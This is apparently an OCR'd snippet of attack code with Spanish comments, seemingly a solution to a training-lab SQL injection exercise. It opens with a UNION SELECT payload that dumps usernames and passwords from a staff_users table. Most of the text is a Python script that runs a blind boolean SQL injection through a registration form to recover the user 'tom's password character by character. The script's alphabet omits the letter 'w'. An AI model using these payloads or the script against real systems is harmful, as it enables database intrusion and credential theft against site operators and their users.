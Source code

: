  ```SQL

0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users

-- - Para listar la informacion de una tabla completa 
select * from tablename;
 ```

Programa de Python para encontrar contrasenas

```py
import json
import requests

def sql_injection_advance_5():
    alphabet_index = 0
    alphabet = 'abcdefghijklmnopqrstuvxyz'
    password_index = 0
    password = ''

    headers = {
        'Cookie': ''
    }

    while True:
        payload = 'tom\' AND substring(password,{},1)=\'{}'.format(password_index + 1, alphabet[alphabet_index])

        data = {
            'username_reg' : payload,
            'email_reg': 'a@a',
            'password_reg': 'a',
            'confirm_password_reg': 'a'
        }

        r = requests.put(LINK, headers=headers, data=data)

        try:
            response = json.loads(r.text)
        except:
            print("Error en JSESSIONID, lo encontraras cuando estes logeado")
            return
        
        if "already exists please try to register with a diferent username" not in response['feedback']:
            alphabet_index += 1
            if alphabet_index > len(alphabet) - 1:
                return
        else:
            password += alphabet[alphabet_index]
            print(password)
            alphabet_index = 0
            password_index += 1

sql_injection_advance_5()
```
